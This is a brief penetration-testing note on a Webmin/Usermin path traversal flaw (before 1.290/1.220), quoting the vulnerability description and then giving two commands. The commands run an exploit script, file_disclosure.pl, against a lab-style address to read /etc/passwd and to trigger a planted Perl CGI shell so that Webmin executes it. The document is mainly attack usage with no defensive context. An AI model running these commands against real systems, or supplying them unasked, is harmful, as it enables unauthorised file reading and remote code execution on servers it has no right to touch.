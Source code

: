 # Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure (Perl) 

## Current Description

Webmin before 1.290 and Usermin before 1.220 calls the simplify_path function before decoding HTML, which allows remote attackers to read arbitrary files, as demonstrated using "..%01" sequences, which bypass the removal of "../" sequences before bytes such as "%01" are removed from the filename. NOTE: This is a different issue than CVE-2006-3274.

## Read file

```sh
./file_disclosure.pl 10.11.1.xxx 10000 /etc/passwd 0
```

## As webmin executes cgi script you can create a perl payload and execute it as cgi

```sh
./file_disclosure.pl 10.11.1.xxx 10000 /home/username/shell.cgi 0
```

